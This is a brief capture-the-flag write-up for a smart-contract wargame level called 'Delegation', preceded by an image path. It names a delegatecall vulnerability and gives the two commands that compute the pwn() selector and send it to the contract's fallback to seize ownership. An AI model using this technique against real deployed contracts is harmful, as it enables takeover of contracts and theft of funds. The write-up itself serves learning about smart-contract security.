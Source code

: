 # Level 6 - Delegation

- Delegate call vulnerability.
- Execute fallback function with target method ID.
- Find id with → `web3.eth.abi.encodeFunctionSignature("pwn()")`
- Then send transaction to contract with data → `await contract.sendTransaction({data:'0xdd365b8b'})`